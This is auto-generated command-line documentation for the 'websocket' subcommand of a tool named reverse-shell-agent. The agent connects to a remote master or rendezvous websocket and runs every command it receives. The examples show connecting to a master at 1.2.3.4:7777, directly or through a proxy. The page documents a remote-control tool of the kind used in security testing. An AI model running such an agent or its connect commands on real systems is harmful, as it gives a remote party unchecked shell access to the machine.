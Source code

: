 ## reverse-shell-agent websocket

Agent that connects to a websocket endpoints and wait for commands

### Synopsis

Connect to a remote websocket and execute every command received. The remote host can be a `master` or a `rendezvous`.

```
reverse-shell-agent websocket [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a rendezvous point instead of a master.

You can also connect to the outside using a proxy:
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777

```

### Options

```
  -h, --help         help for websocket
      --url string   url of the remote websocket endpoint
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

###### Auto generated by spf13/cobra on 1-May-2018
